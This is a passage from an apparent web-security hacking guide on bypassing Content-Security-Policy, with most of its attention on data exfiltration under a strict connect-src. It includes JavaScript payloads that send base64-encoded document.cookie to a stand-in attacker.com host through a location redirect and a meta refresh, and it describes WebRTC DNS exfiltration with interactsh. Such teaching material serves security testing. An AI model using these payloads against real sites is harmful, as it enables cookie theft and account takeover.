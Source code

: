 Note however that this does not prevent all methods of executing code from a string. If `'unsafe-inline'` allows it, you can still write to the DOM with event handlers if required:

```javascript
document.body.setAttribute('onclick', 'alert(1)')
document.body.click()
```

To easily evaluate and find problems with a CSP header, you can use Google's CSP Evaluator which tells you for every directive what potential problems it finds:

{% embed url="https://csp-evaluator.withgoogle.com/" %}
Google's Content-Security-Policy evaluator showing potential issues
{% endembed %}

#### Exfiltrating with strict [`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src)

This directive defines which hosts can be **connected to**, meaning if your attacker's server is not on the list, you cannot make a `fetch()` request like normal to your server in order to exfiltrate any data. While there is no direct bypass for this, you may be able to still connect to any origin **allowed** to exfiltrate data by _storing_ it, and _later retrieving_ it as the attacker at a place you can find. By [#forcing-requests-fetch](cross-site-scripting-xss.md#forcing-requests-fetch "mention"), you could, for example, make a POST request that changes a profile picture, or some other public data, while embedding the data you want to exfiltrate. This way the policy is not broken, but the attacker can still find the data on the website itself.&#x20;

With this technique, remember that even _one bit_ of information is enough, as you can often _repeat_ it to reveal a larger amount of information.&#x20;

A more general bypass for this is to _redirect_ the user fully using JavaScript, as browsers do not prevent this. Then in the URL, you put the data you want to exfiltrate to receive it in a request:

<pre class="language-javascript" data-overflow="wrap"><code class="lang-javascript">// Redirect via document.location:
<strong>location = `http://attacker.com/leak?${btoa(document.cookie)}`
</strong>// Redirect via &#x3C;meta> tag (only at start of page load):
<strong>document.write(`&#x3C;meta http-equiv="refresh" content="0; url=http://attacker.com/leak?${btoa(document.cookie)}">`)
</strong></code></pre>

Another useful method is WebRTC which **bypasses** `connect-src`. The DNS lookup is not blocked and allows for dynamically inserting data into the subdomain field. These names are case-insensitive so an encoding scheme like Base32 can be used to exfiltrate arbitrary data (max \~100 characters per request). Using [`interactsh`](https://github.com/projectdiscovery/interactsh) it is easy to set up a domain to exfiltrate from:

```shell-session
$ interactsh-client

[INF] Listing 1 payload for OOB Testing
[INF] ckjbcs2q8gudlqgitungucqgux7bfhahq.oast.online
```

Then we use the WebRTC trick to exfiltrate any data over DNS:


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed